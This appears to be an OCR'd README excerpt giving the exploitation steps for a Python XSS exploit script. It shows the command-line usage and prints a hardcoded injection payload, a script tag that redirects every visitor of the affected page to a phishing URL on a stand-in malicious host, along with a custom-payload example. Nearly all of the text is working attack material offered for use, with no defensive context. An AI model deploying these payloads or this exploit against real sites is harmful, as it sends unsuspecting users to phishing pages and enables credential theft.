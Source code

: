 # **Exploitation Steps**

The python exploit can be launched either with one or zero parameter, the latter if specified will define a payload for the XSS Injection.

Usage:

- **Default Payload**
~~~
python3 exploit.py
~~~

</br>

This Javascript payload hardcoded in the exploit:
~~~
"><script>window.top.location.replace('https://malicious-phishing-page.evil');</script>
~~~

redirects every user that renders the page to another URL: **www.malicious-phishing-page.evil** in this case.

</br>


- **Custom Payload** (must be inserted between single quotes)
~~~
python3 exploit.py '"><script>alert("This is a custom payload")</script>'
~~~

</br>